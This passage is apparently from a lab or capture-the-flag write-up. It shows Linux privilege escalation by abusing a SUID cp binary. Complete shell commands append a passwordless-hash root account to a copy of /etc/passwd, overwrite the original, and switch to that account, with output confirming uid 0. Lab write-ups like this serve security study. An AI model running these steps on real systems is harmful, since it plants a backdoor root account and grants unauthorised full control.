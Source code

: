 ```bash

```

Then find `cp` has `suid` permissions

<img src="../Images/image-20230813185146977.png" alt="image-20230813185146977" style="zoom:80%;" />

Then use `cp` to get root.

```bash
[benjamin@dibble ~]$ cat /etc/passwd > passwd.bak

[benjamin@dibble ~]$ openssl passwd aaron
openssl passwd aaron
gaDFtFvvEwqho
[benjamin@dibble ~]$ echo "root2:gaDFtFvvEwqho:0:0:root:/root:/bin/bash" >> passwd.bak
[benjamin@dibble ~]$ mv passwd.bak passwd
[benjamin@dibble ~]$ cp passwd /etc/passwd
[benjamin@dibble ~]$ su root2
Password: aaron
[root@dibble benjamin]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@dibble benjamin]# 

```

